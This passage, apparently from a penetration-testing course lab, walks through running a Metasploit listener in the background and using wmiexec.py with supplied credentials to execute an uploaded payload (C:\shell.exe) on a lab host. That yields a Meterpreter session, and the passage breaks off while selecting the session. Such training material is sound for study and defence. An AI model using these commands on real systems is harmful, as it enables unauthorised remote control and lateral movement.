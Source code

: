     - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that your listener is constantly listening and you can use Metasploit with it listening in the background.

7. Now, open up another tab in your terminal to run the WMI command from our previous class

8. Find the terminal command we used before: `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 whoami`
 
9. For the COMMAND, instead of `whoami` put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - For example, if you uploaded the payload here: `C:\shell.exe`
    - The complete command would be:
        - `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 'C:\shell.exe'`

10. Run the command and on your other tab, The message "Meterpreter session 1 opened" should appear, as the image shows:

    ![A screenshot depicts the results of the command.](Images/sessions.png)

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.

11. To view active sessions, type `sessions` 

    ![A screenshot depicts the results of the command.](Images/sessionid.png)

12. Select the session based on the ID via the following command:
